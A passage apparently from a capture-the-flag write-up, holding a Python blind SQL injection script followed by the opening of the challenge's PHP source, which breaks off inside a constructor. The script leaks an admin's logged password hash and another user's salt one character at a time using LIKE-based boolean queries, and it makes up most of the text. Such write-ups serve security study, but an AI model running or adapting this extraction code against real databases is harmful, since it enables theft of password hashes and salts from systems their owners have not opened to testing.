 ```py
def leak(data_getter, possiblec, start=""):
    current = start
    while not run_exploit(data_getter(current)):
        for c in possiblec:
            possible = current + c + "%"
            if run_exploit(data_getter(possible)):
                current += c
                break
        else:
            print("failed!")
            return False
        print(current)
    return current

##### leak logged password attempts

def get_log_data(what):
    logpw = "(select hex(password) from log where (name like 'admin') order by time limit 1)"
    test = "{password} like '{what}'".format(password=logpw, what=what)
    return check_test_data(test)

###### leak salt

def get_salt_data(what):
    salt = "(select innersalt from users where (name <> 'admin') is false)"
    test = "{salt} like binary '{what}'".format(salt=salt, what=what)
    return check_test_data(test)

hashmatch = leak(get_log_data, "0123456789abcdef")
innersalt = leak(get_salt_data, "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ")
target = hashmatch[:6]

print(target, innersalt)
```

## Problem source
```php
<?php

class web_control {
    public $msi;
    public $twig;
    public $secret;
    public $user = '';

    function __construct(){

        error_reporting(E_ALL);
        ini_set('display_errors', 1);

        require_once 'Twig/Autoloader.php';
        Twig_Autoloader::register();

        //setup twig
        $loader = new Twig_Loader_Filesystem('templates');
        $this->twig = new Twig_Environment($loader, array(
            'debug' => 'true'
        ));

        //$this->twig->addExtension(new Twig_Extension_Debug());


```